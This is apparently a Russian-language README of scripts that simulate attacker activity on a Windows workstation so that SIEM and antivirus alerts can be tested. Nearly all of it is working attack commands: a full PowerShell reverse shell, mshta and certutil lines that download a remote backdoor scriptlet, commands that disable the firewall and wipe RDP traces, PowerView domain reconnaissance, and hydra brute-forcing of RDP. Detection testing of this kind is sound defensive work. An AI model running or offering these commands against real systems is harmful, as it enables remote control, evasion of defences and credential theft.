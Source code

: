 Скрипт для генерации событий о разных видах enumaration АРМов не в домене.
```bat
@echo off
# Enumarate user prive/group
whoami
whoami /priv
whoami /groups
# Enumarate users, groups
net user 
net localgroup 
# Enumarate firewall, AV solutions
sc query windefend
sc queryex type= service
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
# Enumarate network
ipconfig
# Disable/enable firewall
netsh advfirewall set allprofiles state off
netsh advfirewall set allprofiles state on
# Turn on remote connection
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
# Clear last rdp connection from registry
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f
reg add "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers"
# Fast create and delete local user
net user test 12345 /add
net user test /delete
# Simulate delete home user directory 
mkdir C:\Users\test
rd /s /q "C:\Users\test"
```

Скрипт для генерации событий о реакции на малварь AV.
```bat
@echo off
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.0.98",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
mshta https://gist.githubusercontent.com/enigma0x3/469d82d1b7ecaf84f4fb9e6c392d25ba/raw/6cb52b88bcc929f5555cd302d9ed848b7e407052/Backdoor.sct
certutil.exe -urlcache -f https://gist.githubusercontent.com/enigma0x3/469d82d1b7ecaf84f4fb9e6c392d25ba/raw/6cb52b88bcc929f5555cd302d9ed848b7e407052/Backdoor.sct evil.com
```
Отключение AV. После отключения AV SIEM должна сгенерировать инцидент оботключении AV. Повторный запуск тестовой малвари для генерации событий о небезопасных утилитах из cmd. 
```bat
@echo off
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.0.98",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
mshta https://gist.githubusercontent.com/enigma0x3/469d82d1b7ecaf84f4fb9e6c392d25ba/raw/6cb52b88bcc929f5555cd302d9ed848b7e407052/Backdoor.sct
certutil.exe -urlcache -f https://gist.githubusercontent.com/enigma0x3/469d82d1b7ecaf84f4fb9e6c392d25ba/raw/6cb52b88bcc929f5555cd302d9ed848b7e407052/Backdoor.sct evil.com
# Можно запустить WinPEAS для генерации события о выгрузке в консоль чувствительной информации о системе.
```

P.S.
Для тестирования учётки AD на АРМ должен быть установлен RSAT или импортировать Microsoft.ActiveDirectory.Management.dll в powershell (будет доступа часть командлетов связанных с AD), большая часть отработает с ошибками, что породит инциденты о разведке привилегий. Запуск с контроллера домена выдаст больше выхлопа.

```bat
Import-Module .\Microsoft.ActiveDirectory.Management.dll

Get-ADGroup -Filter *
Get-ADGroup -Filter {Name -like "admin"} | select name, GroupScope
Get-ADDomain
Get-ADForest
Get-ADTrust -Filter *


Get-DomainPolicy
Get-NetDomain
Get-DomainSID
Get-NetDomainController
Get-NetUser
Get-NetComputer
Get-NetComputer -Ping
Get-NetGroup
Get-NetGroup *admin*
Get-NetGroupMember -GroupName "Domain Admins"
Invoke-ShareFinder
Get-NetGPO -ComputerName client-02.fanzy.com
Find-GPOLocation -UserName Aziz
Get-NetOU
Get-NetDomainTrust
Get-NetForest
Get-NetForest -Forest dampy.com
Get-NetForestDomain
Get-NetForestCatalog
Get-NetForestTrust
Find-LocalAdminAccess
Invoke-EnumerateLocalAdmin
Invoke-UserHunter
Invoke-UserHunter -CheckAccess
Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
Get-ObjectAcl -SamAccountName labuser -ResolveGUIDs -RightsFilter "ResetPassword"
```

P.S.S
С атакующего компа можно побрутить, посканить порты, позапускать psexec.

```bash
nmap -A -p- -T4 192.168.23.56(Блокируется фаерволом, но нет инцидента в винде)
nmap -Pn -p- -T4 192.168.23.56 (Нет инцидента о сборе инфы)

hydra rdp://192.168.23.56 -l admin -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt

psexec \\192.168.99.56 -s -u администратор -p 12345 cmd.exe и whoami
```

